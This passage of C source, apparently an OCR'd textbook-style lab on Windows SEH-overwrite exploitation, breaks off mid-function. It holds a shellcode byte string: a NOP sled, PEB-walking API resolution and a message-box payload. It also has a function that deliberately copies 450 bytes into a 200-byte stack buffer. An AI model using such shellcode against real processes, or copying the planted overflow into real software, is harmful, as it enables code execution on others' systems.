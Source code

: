 	"\x12\x10\x12\x11"

	"\x90\x90\x90\x90\x90\x90\x90\x90"

	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"

	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"

	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"

	"\x49\x1C\x8B\x09\x8b"

	"\x09\x8B"

	"\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"

	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"

	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"

	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"

	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"

	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"

	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"

	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"

	;

	DWORD MyException(void)

	{

		printf("There is an exception");

		getchar();

		return 1;

	}

	void test(char * input)

	{

		char str[200];

		memcpy(str,input,450);

		int zero=0;

		__try

		{

			zero=1/zero;

		}

		__except(MyException())

		{
